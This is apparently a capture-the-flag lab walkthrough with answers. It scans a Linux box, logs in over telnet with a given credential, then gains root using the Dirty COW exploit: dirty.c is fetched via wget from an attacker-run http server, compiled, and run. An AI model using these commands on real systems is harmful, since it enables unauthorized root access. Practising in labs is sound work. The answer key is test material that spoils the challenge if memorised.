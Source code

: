 # [Day 13] Special By John Hammond - Coal for Christmas

## Port Scanning

We do a simple nmap scan: `nmap 10.10.x.x -sV`

__nmap output:__
```
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
23/tcp  open  telnet  Linux telnetd
111/tcp open  rpcbind 2-4 (RPC #100000)
MAC Address: 02:41:1D:4A:2C:8F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 1. What old, deprecated protocol and service is running?
```
telnet
```

## Initial Access

### 2. What credential was left for you?
```
clauschristmas
```

1. Connect to telnet with `telnet 10.10.x.x 23`
2. Login with the given credentials

## Enumeration

### 3. What distribution of Linux and version number is this server running?
```
ubuntu 12.04
```

1. Run the command `cat /etc/*release`
2. The output should contain the answer

### 4. Who got here first?
```
grinch
```

### 5. What is the verbatim syntax you can use to compile, taken from the real C source code comments?
```
gcc -pthread dirty.c -o dirty -lcrypt
```

## Privilege Escalation

### 6. What "new" username was created, with the default operations of the real C source code?
```
firefart
```

### 7. What is the MD5 hash output?

1. Download the dirty.c file from [here](https://github.com/FireFart/dirtycow/blob/master/dirty.c)
2. Transfer the file into the telnet machine. I'll start a quick python3 http server with `python3 -m http.server 8080`
    - Make sure the downloaded file is in the same directory to where you started the http server
3. On the telnet terminal, download the file with `wget http://10.10.x.x:8080/dirty.c`
4. Compile it with `gcc -pthread dirty.c -o dirty -lcrypt`
5. Run the file with `./dirty`
6. When prompted for the new password, write anything, but make sure to remember it.
7. After the program finishes, switch to the new user with `su firefart` and type the password you created
8. Change to the root directory `cd/root` and open the message from the grinch `cat message_from_the_grinch.txt`
9. Create a file named __coal__ `touch coal`
10. Run `tree | md5sum`. The output of this line is your flag

